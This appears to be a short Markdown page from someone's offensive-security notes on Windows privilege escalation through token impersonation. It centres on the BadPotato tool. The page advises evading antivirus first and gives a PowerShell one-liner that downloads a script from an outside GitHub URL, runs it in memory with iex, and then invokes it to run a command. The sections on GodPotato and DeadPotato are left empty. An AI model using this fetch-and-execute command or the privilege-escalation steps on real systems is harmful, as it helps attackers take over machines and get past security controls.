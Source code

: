 # Privilege Escalation: Token Impersonate

## How it work

This technique based on some methods to duplicate then impersonate another user's existing token to escalate privileges and bypass access controls.

## Requirement

- Almost every techniques need `SeImpersonatePrivilege` on current user
- Unfortunately, most techniques is detected by modern AV like Windows Defender, so you should try some method from [Defense Evasion]() before running below scripts

## Methods

There are plenty techniques that still exist ( or Potato, I don't know why they name it like that ) for us to use:
 
#### BadPotato

- We can get PE binary by building it from repo [BadPotato](https://github.com/BeichenDream/BadPotato)
- Or using powershell script like this:
```powershell
iex (iwr "https://raw.githubusercontent.com/Zanitas404/Invoke-BadPotato/refs/heads/main/Invoke-BadPotato.ps1" -UseBasicParsing).Content
Invoke-BadPotato "whoami"
```

#### GodPotato
#### DeadPotato

I'm lazy now so just using BadPotato is enough, maybe I will update this in some day
